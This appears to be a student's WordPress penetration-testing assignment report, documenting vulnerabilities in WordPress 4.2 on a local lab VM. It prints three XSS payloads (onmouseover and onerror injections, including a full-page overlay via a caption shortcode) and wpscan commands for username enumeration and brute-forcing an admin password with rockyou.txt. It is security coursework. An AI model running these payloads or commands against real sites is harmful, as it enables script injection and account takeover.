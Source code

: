 # Project 7 - WordPress Pen Testing

Time spent: **12** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pen Testing Report

### 1. (Required) Vulnerability Name: Authenticated Stored Cross-Site Scripting

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version:  4.2.3
- [ ] GIF Walkthrough: <img src=XSS1.gif />
- [ ] Steps to recreate: 
  - Create a new Post
  - Key in the line of code in text editer: ```<a href="</a><a title=" onmouseover=alert('test')  ">link</a>```
- [ ] Affected source code:
  - [Link 1](https://klikki.fi/adv/wordpress3.html)
  
### 2. (Required) Vulnerability Name: Unauthenticated Genericons Cross-Site Scripting

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version: 4.2.2
- [ ] GIF Walkthrough: <img src=XSS2.gif />
- [ ] Steps to recreate: 
  - Create a new Post
  - Key in the line of code in text editer: 
    ```http://www.example.com/wp-content/themes/twentyfifteen/genericons/example.html#1<img/ src=1 onerror= alert(1)>``` 
- [ ] Affected source code:
  - [Link 1](https://wpscan.com/vulnerability/21169b6d-61dd-4abc-b77b-167ff5f122ac)

### 3. (Required) Vulnerability Name: Authenticated Shortcode Tags Cross-Site Scripting

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version: 4.2.4
- [ ] GIF Walkthrough: <img src=XSS3.gif />
- [ ] Steps to recreate: 
  - Create a new Post
  - Key in the line of code in text editer: ```XSS LOL!!![caption width='1' caption='<a href="' ">]</a><a href="http://onMouseOver='alert(/xss/)' style='display:block;position:absolute;top:0px;left:0px;margin-left:-1000px;margin-top:-1000px;width:99999px;height:99999px;'"></a>```
- [ ] Affected source code:
  - [Link 1](https://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/)

### 4. (Optional) Vulnerability Name: Enumerate Usernames

- [ ] Summary: 
  - Vulnerability types: Enumerate Usernames
  - Tested in version: 4.2 
  - Fixed in version: 
- [ ] GIF Walkthrough: <img src=enumerate.gif />
- [ ] Steps to recreate: 
      ```wpscan --url http://wpdistillery.vm/ --enumerate u```
- [ ] Affected source code:
  - [Link 1](https://www.wpwhitesecurity.com/enumerate-wordpress-users-wpscan-security-scanner/)

### 5. (Optional) Vulnerability Name: Weak Passwords

- [ ] Summary: 
  - Vulnerability types: Weak Passwords
  - Tested in version: 4.2
  - Fixed in version: 
- [ ] GIF Walkthrough: <img src=password.gif />
- [ ] Steps to recreate: ```wpscan --url http://wpdistillery.vm -P /home/kali/Downloads/rockyou.txt --usernames admin,wpscan01```
- [ ] Affected source code:
  - [Link 1](https://www.wpwhitesecurity.com/strong-wordpress-passwords-wpscan/) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with  ...
<!-- Recommended GIF Tools:
[Kap](https://getkap.co/) for macOS
[ScreenToGif](https://www.screentogif.com/) for Windows
[peek](https://github.com/phw/peek) for Linux. -->

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2022] [Xujuan Chen]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

